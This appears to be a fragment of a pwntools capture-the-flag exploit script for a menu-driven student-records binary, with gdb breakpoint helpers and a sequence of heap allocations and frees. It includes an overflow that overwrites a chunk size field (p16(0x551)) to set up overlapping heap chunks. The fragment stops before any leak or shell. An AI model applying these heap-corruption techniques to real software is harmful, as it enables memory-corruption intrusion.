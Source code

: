 ```python
            b_string += f"b *$rebase({i})\n"
    else:
        for i in b_slice:
            b_string += f"b *{hex(i)}\n"
    if is_start :
        p = gdb.debug(filename,b_string)
        return
    else:
        gdb.attach(p,b_string)
        pause()

b_add=0x1bac
b_dele=0x1bc4
b_show=0x1534
b_slice = [
    b_show
]
p = process(file_name)

#debug(b_slice = b_slice,is_pie=1,is_start=1) 

def menu(op):
    sla(b">> ", str(op).encode())
def add(size, content):
    menu(1)
    sla(b"How many students do you want to add: ", str(1).encode())
    sla(b"Gender (m/f): ", b"m")
    sla(b"Size: ", str(size).encode())
    sa(b"Content:", content)
def show(index):  
    menu(2)
    sla(b"Enter the index of the student: ", str(index).encode())
    menu(2)
def free(index):  
    menu(3)
    sla(b"Enter the index of the student: ", str(index).encode())
    menu(2)
    

add(0x410,b"a"*8) # 0 290 
add(0x100,b"a"*8) # 1 6b0 
add(0x430,b"a"*8) # 2 7c0 
add(0x430,b"a"*8) # 3 c00
add(0x100,b"a"*8) # 4 1040 
add(0x480,b"a"*8) # 5 1150 
add(0x420,b"a"*8) # 6 15e0 
add(0x10, b"a"*8) # 7 1a10
free(0)
free(3)
free(6)
free(2)
add(0x450,b"a"*0x438 + p16(0x551)) # 0
add(0x410,b"a"*8) # 2
add(0x420,b"a"*8) # 3
add(0x410,b"a"*8) # 6
free(6)
free(2)
add(0x410,b"a"*8) # 2
add(0x410,b"a"*8) # 6
free(6)
free(3)
free(5)

```